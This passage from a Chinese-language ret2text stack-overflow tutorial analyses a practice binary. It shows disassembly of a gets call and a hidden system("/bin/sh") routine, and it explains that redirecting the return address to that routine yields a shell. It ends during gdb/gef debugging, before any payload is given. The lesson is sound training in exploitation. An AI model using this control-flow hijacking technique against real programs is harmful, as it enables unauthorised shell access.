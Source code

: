 可以看出程序在主函数中使用了 gets 函数，显然存在栈溢出漏洞。此后又发现

```asm
.text:080485FD secure          proc near
.text:080485FD
.text:080485FD input           = dword ptr -10h
.text:080485FD secretcode      = dword ptr -0Ch
.text:080485FD
.text:080485FD                 push    ebp
.text:080485FE                 mov     ebp, esp
.text:08048600                 sub     esp, 28h
.text:08048603                 mov     dword ptr [esp], 0 ; timer
.text:0804860A                 call    _time
.text:0804860F                 mov     [esp], eax      ; seed
.text:08048612                 call    _srand
.text:08048617                 call    _rand
.text:0804861C                 mov     [ebp+secretcode], eax
.text:0804861F                 lea     eax, [ebp+input]
.text:08048622                 mov     [esp+4], eax
.text:08048626                 mov     dword ptr [esp], offset unk_8048760
.text:0804862D                 call    ___isoc99_scanf
.text:08048632                 mov     eax, [ebp+input]
.text:08048635                 cmp     eax, [ebp+secretcode]
.text:08048638                 jnz     short locret_8048646
.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641                 call    _system
```

在 secure 函数又发现了存在调用 system("/bin/sh") 的代码，那么如果我们直接控制程序返回至 0x0804863A，那么就可以得到系统的 shell 了。

下面就是我们如何构造 payload 了，首先需要确定的是我们能够控制的内存的起始地址距离 main 函数的返回地址的字节数。

```asm
.text:080486A7                 lea     eax, [esp+1Ch]
.text:080486AB                 mov     [esp], eax      ; s
.text:080486AE                 call    _gets
```

可以看到该字符串是通过相对于 esp 的索引，所以我们需要进行调试，将断点下在 call 处，查看 esp，ebp，如下

```shell
gef➤  b *0x080486AE
Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.
gef➤  r
There is something amazing here, do you know anything?

Breakpoint 1, 0x080486ae in main () at ret2text.c:24
24	    gets(buf);
───────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebx   : 0x00000000
$ecx   : 0xffffffff
$edx   : 0xf7faf870  →  0x00000000
$esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebp   : 0xffffcdc8  →  0x00000000
$esi   : 0xf7fae000  →  0x001b1db0
$edi   : 0xf7fae000  →  0x001b1db0
$eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>
```

